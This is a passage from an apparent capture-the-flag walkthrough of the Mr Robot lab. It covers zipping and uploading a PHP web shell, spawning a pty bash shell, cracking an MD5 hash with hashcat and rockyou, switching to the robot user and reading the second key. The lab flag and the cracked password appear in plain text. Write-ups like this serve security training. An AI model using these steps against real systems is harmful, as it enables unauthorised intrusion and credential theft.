 ![](https://imgur.com/iHDOA5E.png)

### But before we need to zip the shell.php to upload it.

```php
kali@kali:~/Desktop$ zip shell.zip shell.php
adding: shell.php (deflated 59%)
```

![](https://imgur.com/8R8hdRA.png)

Great we successfully upload our php shell ! Let's active it

![](https://imgur.com/TJWP8eN.png)

![](https://imgur.com/fQmZmpc.png)

Nice ! :D we have a shell let's make it fancy now

```php
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](https://imgur.com/kMjgqa7.png)

![](https://imgur.com/MN5tFup.png)

As you can see we can't see the key2 but we have an hash so let's crack it

![](https://imgur.com/8GOkKch.png)

```
kali@kali:~/Desktop$ hashcat -m 0 --force hashmrrobot /usr/share/wordlists/rockyou.txt
```

```
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
```

### #3 What is key 3?

![](https://imgur.com/37RDyTP.png)

```
su -l robot
Password: abcdefghijklmnopqrstuvwxyz
```

```
robot@linux:~$ ls
ls
key-2-of-3.txt  password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

